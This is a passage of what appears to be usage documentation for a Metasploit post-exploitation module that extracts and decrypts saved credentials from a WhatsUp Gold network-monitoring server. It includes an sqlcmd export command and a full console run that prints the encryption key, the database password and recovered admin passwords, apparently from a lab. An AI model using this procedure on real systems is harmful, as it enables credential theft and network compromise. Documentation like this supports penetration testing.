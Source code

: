 Output must be encoded VARBINARY per above, and must be well-formed CSV (i.e. no trailing whitespace).
If using `sqlcmd`, ensure the `-W` and `-I` parameters are included to strip trailing whitespace and
allow quoted identifiers. Suggested syntax for `sqlcmd` using Windows authentication is below, where
the contents of `solarwinds_sql_query.sql` is the text of the SQL query above:

`sqlcmd -d "<DBNAME>" -S <MSSQL_INSTANCE> -E -i sql_query.sql -o wug_dump.csv -h-1 -s"," -w 65535 -W -I`

This should place a CSV export file suitable for use within the module at `wug_dump.csv`. If
using SQL native auth, replace the `-E` parameter with

`-U "<MSSQL_USER>" -P "<MSSQL_PASS>"`

### Examples

Windows Server 2019 host running WhatsUp Gold Build 22.1.39 with external database
and SQL native authentication using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/whatsupgold_credential_dump
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WUG IPv4 192.168.101.137
[*] WhatsUp Gold Build 22.1.39
[*] Init WhatsUp Gold crypto ...
[+] WhatsUp Gold Serial Number: 52CXF233MXGRDVB
[+] WhatsUp Gold Dynamic Encryption Salt
[+]     HEX: E9143AD84940A233
[+] WhatsUp Gold Composed AES256
[+]     KEY: 5B83224E3BFB363C841C6E27B6DF6B824ECD67BA06B4ED1918C0F738A60A8A75
[+]      IV: 5205DF3A92F346215308DD91DEAF69AE
[*] Init WhatsUp Gold SQL ...
[+] SolarWinds WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: cornflakes.cesium137.io
[+]     Database Name: WhatsUp
[+]     Database User: WhatsUpGold_WUG
[+]     Database Pass: KB4A5bERZ13o6GGF3kON3z6mx5
[*] Performing export of WhatsUp Gold SQL database to CSV file
[*] Export WhatsUp Gold DB ...
[+] 11 WUG rows exported, 4 unique nCredentialTypeIDs
[+] Encrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218103644_default_192.168.101.137_whatsup_gold_enc_233587.txt
[*] Performing decryption of WhatsUp Gold SQL database
[+] 11 WUG rows loaded, 4 unique nCredentialTypeIDs
[*] Process WhatsUp Gold DB ...
[+] 11 WUG rows processed
[*] 11 rows recovered: 7 plaintext, 4 decrypted (0 blank)
[*] 11 rows written (0 blank rows withheld)
[+] 4 unique WUG nCredentialTypeID records recovered
[+] Recovered Credential: LDAP bind account
[+]     L: CESIUM137\ldap
[+]     P: WuddidUSay2Me?!
[+] Recovered Credential: vSphere SSO Admin
[+]     L: Administrator@vSphere.local
[+]     P: IAmOut2Lunch!
[+] Recovered Credential: NetScaler root
[+]     L: nsroot
[+]     P: quit2day!
[+] Decrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218103644_default_192.168.101.137_whatsup_gold_dec_398808.txt
[*] Post module execution completed
```